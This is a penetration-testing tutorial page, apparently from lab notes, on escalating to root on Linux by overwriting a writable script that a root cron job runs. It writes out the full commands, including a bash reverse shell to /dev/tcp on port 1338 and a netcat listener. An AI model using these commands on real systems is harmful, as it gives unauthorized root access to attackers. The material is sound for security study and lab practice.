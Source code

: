 ### **INTRODUCTION**

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script that is executed as part of a cron job, we can replace it with our own code. This allows us to run arbitrary code with the privileges of the user executing the cron job, potentially gaining unauthorized access and control over the system.

### **STEPS TO IDENTIFY AND EXPLOIT WEAK FILE PERMISSION**

1.  By executing LinPEAS, we discover a cron job that runs every minute as root, marked with a red/yellow alert.  
    
    ![](../../../../img/Linux-Environment/87.png)

    ??? info "NOTE"

        Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions of the script executed by the cron job:  
    `ls -la /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/88.png)

    ??? info "NOTE"

        Here we see “rw”,  This means that we can either replace this file with a malicious one or edit it so that it executes a malicious command for us. 
    
3.  Next, we should Inspect the script to understand its functionality and decide whether to edit or replace it:  
    `cat /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/89.png)
    
4.  Add the following command to the script that will give us a reverse shell:  
    `echo '#!/bin/bash' > /home/karen/backup.sh`  
    `echo "" >> /home/karen/backup.sh`  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/1338 0>&1' >> /home/karen/backup.sh`  

    ![](../../../../img/Linux-Environment/90.png) 

    ??? info "NOTE"

        In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh` 
    
5.  Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:  
    `nc -lvnp 1338`  
    
    ![](../../../../img/Linux-Environment/91.png)

    In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh`

    ??? info "NOTE"

        Within a minute, the cron job should trigger, and you should obtain a root shell. 